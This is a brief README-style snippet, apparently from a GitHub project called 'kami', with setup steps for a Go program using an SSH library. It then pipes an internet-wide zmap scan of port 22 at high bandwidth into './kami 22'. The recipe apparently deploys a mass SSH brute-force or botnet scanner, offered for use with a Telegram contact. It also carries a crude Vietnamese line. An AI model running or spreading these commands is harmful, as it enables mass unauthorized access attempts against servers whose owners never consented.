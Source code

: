 snap install go --classic
go mod init kami
go get golang.org/x/crypto/ssh
apt install zmap -y
go install
go build
ulimit -n999999; ulimit -u999999; ulimit -e999999
zmap -p 22 -B1000M -i eth0 -T5 -q |./kami 22
ib box telegram : t.me/kami2k1
### xem sex ít thôi địt com mẹ 